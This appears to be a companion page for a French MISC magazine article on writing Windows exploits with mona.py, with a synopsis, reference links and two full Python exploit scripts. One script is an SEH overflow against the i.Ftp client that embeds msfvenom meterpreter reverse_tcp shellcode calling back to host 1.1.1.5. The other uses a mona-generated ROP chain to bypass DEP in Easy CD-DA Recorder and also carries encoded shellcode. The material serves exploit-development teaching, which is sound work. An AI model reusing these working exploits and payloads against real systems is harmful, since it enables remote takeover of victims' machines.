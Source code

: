 MISC numéro 79 - Mai 2015
=======

### Ramonage de vulns avec mona.py

####Synopsis
Défini par Peter Van Eeckhoutte, son auteur, comme la boite à outils du développement d'exploit en environnement win32, mona.py [1] est un plugin qui fonctionne avec Immunity Debugger et WinDBG. Simple d'utilisation, il a l'énorme avantage de réunir les fonctionnalités de bon nombre d'autres outils tout en s'intégrant dans votre débogueur.
Plutôt que de présenter toutes ses possibilités unes par unes, nous allons à travers des exemples pratiques montrer comment il permet de gagner du temps lors de l'écriture d'exploits en environnement Windows.

#### Remerciements
Merci à Alexandre, André (@andremoulu), Fred (@FredzyPadzy), Inti (@SalasRossenbach) Jérôme (JLeonard), l'équipe MISC (@MISCRedac), Mohamed, Peter (@corelanc0d3r), Saâd (@_saadk) et Thomas pour la relecture et l'inspiration.

#### Les liens
- [1] https://github.com/corelan/mona
- [2] https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/
- [3] https://www.corelan.beHYPERLINK "https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/"/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/
- [4] https://www.corelan.be/index.HYPERLINK "https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/"php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
- [5] https://www.hackinparis.com/slides/hip2k11/04-ProjectQuebec.pdf
- [6] https://www.corelan.be/index.php/2010/01/26/starting-to-write-immunity-debugger-pycommands-my-cheatsheet/
- [7] http://www.vmware.com/fr/products/player
- [8] https://github.com/corelan/windbglib
- [9] http://www.exploit-db.com/exploits/35177
- [10] http://www.exploit-db.com/exploits/31643
- [11] https://community.rapid7.com/community/metasploit/blog/2014/12/09/good-bye-msfpayload-and-msfencode
- [12] https://github.com/MISCMag/MISC-79
- [13] https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/

#### L'exploit iftp.py (chapitre 4.3)
```
import os,struct,sys
   
outputfile = 'C:\Program Files\Memecode\i.Ftp\Schedule.xml'
size = 20000
offset_to_nseh = 592

junk1 = "A" * offset_to_nseh
nseh = "\xeb\x06\xCC\xCC" # "\xeb\x06" = jmp $+8 = jump to stackadjust
seh = struct.pack('<L',0x10011887) #0x10011887 : pop ecx # pop ecx # ret 0x08 |  {PAGE_EXECUTE_READ} [Lgi.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Memecode\i.Ftp\Lgi.dll)
stackadjust= "\x81\xc4\x24\xfa\xff\xff"	# add esp,-1500
# ./msfvenom -p windows/meterpreter/reverse_tcp exitfunc=thread lhost=1.1.1.5 R -a x86 --platform windows -b '\x00\x0a\x0d\x20\x22\x3c\x3e' -f python
# Found 22 compatible encoders
# Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
# x86/shikata_ga_nai succeeded with size 308 (iteration=0)
buf =  ""
buf += "\xb8\xca\xa4\x97\xb2\xda\xd7\xd9\x74\x24\xf4\x5a\x2b"
buf += "\xc9\xb1\x47\x83\xc2\x04\x31\x42\x0f\x03\x42\xc5\x46"
buf += "\x62\x4e\x31\x04\x8d\xaf\xc1\x69\x07\x4a\xf0\xa9\x73"
buf += "\x1e\xa2\x19\xf7\x72\x4e\xd1\x55\x67\xc5\x97\x71\x88"
buf += "\x6e\x1d\xa4\xa7\x6f\x0e\x94\xa6\xf3\x4d\xc9\x08\xca"
buf += "\x9d\x1c\x48\x0b\xc3\xed\x18\xc4\x8f\x40\x8d\x61\xc5"
buf += "\x58\x26\x39\xcb\xd8\xdb\x89\xea\xc9\x4d\x82\xb4\xc9"
buf += "\x6c\x47\xcd\x43\x77\x84\xe8\x1a\x0c\x7e\x86\x9c\xc4"
buf += "\x4f\x67\x32\x29\x60\x9a\x4a\x6d\x46\x45\x39\x87\xb5"
buf += "\xf8\x3a\x5c\xc4\x26\xce\x47\x6e\xac\x68\xac\x8f\x61"
buf += "\xee\x27\x83\xce\x64\x6f\x87\xd1\xa9\x1b\xb3\x5a\x4c"
buf += "\xcc\x32\x18\x6b\xc8\x1f\xfa\x12\x49\xc5\xad\x2b\x89"
buf += "\xa6\x12\x8e\xc1\x4a\x46\xa3\x8b\x02\xab\x8e\x33\xd2"
buf += "\xa3\x99\x40\xe0\x6c\x32\xcf\x48\xe4\x9c\x08\xaf\xdf"
buf += "\x59\x86\x4e\xe0\x99\x8e\x94\xb4\xc9\xb8\x3d\xb5\x81"
buf += "\x38\xc2\x60\x05\x69\x6c\xdb\xe6\xd9\xcc\x8b\x8e\x33"
buf += "\xc3\xf4\xaf\x3b\x0e\x9d\x5a\xc1\xd8\xa3\x9b\xc8\x1d"
buf += "\xcc\x99\xca\x0c\x50\x17\x2c\x44\x78\x71\xe6\xf0\xe1"
buf += "\xd8\x7c\x61\xed\xf6\xf8\xa1\x65\xf5\xfd\x6f\x8e\x70"
buf += "\xee\x07\x7e\xcf\x4c\x81\x81\xe5\xfb\x2d\x14\x02\xaa"
buf += "\x7a\x80\x08\x8b\x4c\x0f\xf2\xfe\xc7\x86\x66\x41\xbf"
buf += "\xe6\x66\x41\x3f\xb1\xec\x41\x57\x65\x55\x12\x42\x6a"
buf += "\x40\x06\xdf\xff\x6b\x7f\x8c\xa8\x03\x7d\xeb\x9f\x8b"
buf += "\x7e\xde\x21\xf7\xa8\x26\x54\x19\x69"
junk2 = "C" * (size-len(junk1+nseh+seh+stackadjust+buf))
poc = junk1 + nseh + seh + stackadjust + buf + junk2
header = "\x3c\x3f\x78\x6d\x6c\x20\x76\x65\x72\x73\x69\x6f\x6e\x3d\x22\x31\x2e\x30\x22\x20\x65\x6e\x63\x6f\x64\x69\x6e\x67\x3d\x22"
header += "\x55\x54\x46\x2d\x38\x22\x20\x3f\x3e\x0a\x3c\x53\x63\x68\x65\x64\x75\x6c\x65\x3e\x0a\x09\x3c\x45\x76\x65\x6e\x74\x20\x55"
header += "\x72\x6c\x3d\x22\x22\x20\x54\x69\x6d\x65\x3d\x22\x68\x74\x74\x70\x3a\x2f\x2f\x0a"
footer = "\x22\x20\x46\x6f\x6c\x64\x65\x72\x3d\x22\x22\x20\x2f\x3e\x0a\x3c\x2f\x53\x63\x68\x65\x64\x75\x6c\x65\x3e\x0a"
buffer =  header + poc + footer
print "[+] Creating %s" % outputfile
f = open(outputfile,'wb')
print "[+] Writing %d bytes to file" % len(buffer)
f.write(buffer)
print "[+] Done"
f.close()
```

#### L'exploit easy.py (chapitre 4.4)
```
import os,struct

def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      0x10087fe1,  # POP ECX # RETN [audconv.dll]
      0x0042a0e0,  # ptr to &VirtualProtect() [IAT easycdda.exe]
      0x10041e69,  # MOV EAX,DWORD PTR DS:[ECX] # RETN [audconv.dll]
      0x10035802,  # XCHG EAX,ESI # RETN [audconv.dll]
      0x1000327e,  # POP EBP # RETN [audconv.dll]
      0x00403054,  # & push esp # ret 0x08 [easycdda.exe]
      0x0041c160,  # POP EBX # RETN [easycdda.exe]
      0x00000201,  # 0x00000201-> ebx
      0x1007f883,  # POP EDX # RETN [audconv.dll]
      0x00000040,  # 0x00000040-> edx
      0x10090089,  # POP ECX # RETN [audconv.dll]
      0x00434ce9,  # &Writable location [easycdda.exe]
      0x1005d353,  # POP EDI # RETN [audconv.dll]
      0x100378e6,  # RETN (ROP NOP) [audconv.dll]
      0x1007f18a,  # POP EAX # RETN [audconv.dll]
      0x90909090,  # nop
      0x00429692,  # PUSHAD # INC EBX # ADD CL,CH # RETN [easycdda.exe]
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()

offset_nseh = 1108	#SEH record (nseh field) at 0x0012f4f4 overwritten with normal pattern : 0x6c42396b (offset 1108)
junk1 = "A" * offset_nseh
nseh = "\x90" * 4
seh = struct.pack('L',0x1001b19b)  		# ADD ESP,0C10 # RETN 0x04 [audconv.dll]
ropnops = struct.pack('L',0x100013ac)  	# RET [audconv.dll]
buf =  ""
buf += "\x81\xc4\x24\xfa\xff\xff"	# add esp,-1500
buf += "\xdb\xc8\xd9\x74\x24\xf4\xb8\x20\xa5\xd2\xfe\x5e\x33"
buf += "\xc9\xb1\x47\x83\xee\xfc\x31\x46\x14\x03\x46\x34\x47"
buf += "\x27\x02\xdc\x05\xc8\xfb\x1c\x6a\x40\x1e\x2d\xaa\x36"
buf += "\x6a\x1d\x1a\x3c\x3e\x91\xd1\x10\xab\x22\x97\xbc\xdc"
buf += "\x83\x12\x9b\xd3\x14\x0e\xdf\x72\x96\x4d\x0c\x55\xa7"
buf += "\x9d\x41\x94\xe0\xc0\xa8\xc4\xb9\x8f\x1f\xf9\xce\xda"
buf += "\xa3\x72\x9c\xcb\xa3\x67\x54\xed\x82\x39\xef\xb4\x04"
buf += "\xbb\x3c\xcd\x0c\xa3\x21\xe8\xc7\x58\x91\x86\xd9\x88"
buf += "\xe8\x67\x75\xf5\xc5\x95\x87\x31\xe1\x45\xf2\x4b\x12"
buf += "\xfb\x05\x88\x69\x27\x83\x0b\xc9\xac\x33\xf0\xe8\x61"
buf += "\xa5\x73\xe6\xce\xa1\xdc\xea\xd1\x66\x57\x16\x59\x89"
buf += "\xb8\x9f\x19\xae\x1c\xc4\xfa\xcf\x05\xa0\xad\xf0\x56"
buf += "\x0b\x11\x55\x1c\xa1\x46\xe4\x7f\xad\xab\xc5\x7f\x2d"
buf += "\xa4\x5e\xf3\x1f\x6b\xf5\x9b\x13\xe4\xd3\x5c\x54\xdf"
buf += "\xa4\xf3\xab\xe0\xd4\xda\x6f\xb4\x84\x74\x46\xb5\x4e"
buf += "\x85\x67\x60\xc0\xd5\xc7\xdb\xa1\x85\xa7\x8b\x49\xcc"
buf += "\x28\xf3\x6a\xef\xe3\x9c\x01\x15\x63\xa2\xd4\x14\x76"
buf += "\xcc\xd4\x16\x69\x50\x50\xf0\xe3\x78\x34\xaa\x9b\xe1"
buf += "\x1d\x20\x3a\xed\x8b\x4c\x7c\x65\x38\xb0\x32\x8e\x35"
buf += "\xa2\xa2\x7e\x00\x98\x64\x80\xbe\xb7\x88\x14\x45\x1e"
buf += "\xdf\x80\x47\x47\x17\x0f\xb7\xa2\x2c\x86\x2d\x0d\x5a"
buf += "\xe7\xa1\x8d\x9a\xb1\xab\x8d\xf2\x65\x88\xdd\xe7\x69"
buf += "\x05\x72\xb4\xff\xa6\x23\x69\x57\xcf\xc9\x54\x9f\x50"
buf += "\x31\xb3\x21\xac\xe4\xfd\x57\xdc\x34"
junk2 = "B" * 10000

buffer = junk1 + nseh + seh + ropnops * 23 + rop_chain + buf + junk2

print "[+] Length of total buffer: %s" % len(buffer)
print "[+] Writing sploit in c:\\temp\\ecr.pls"
file = open('c:\\temp\\ecr.pls','wb')
file.write(buffer)
file.close()
```
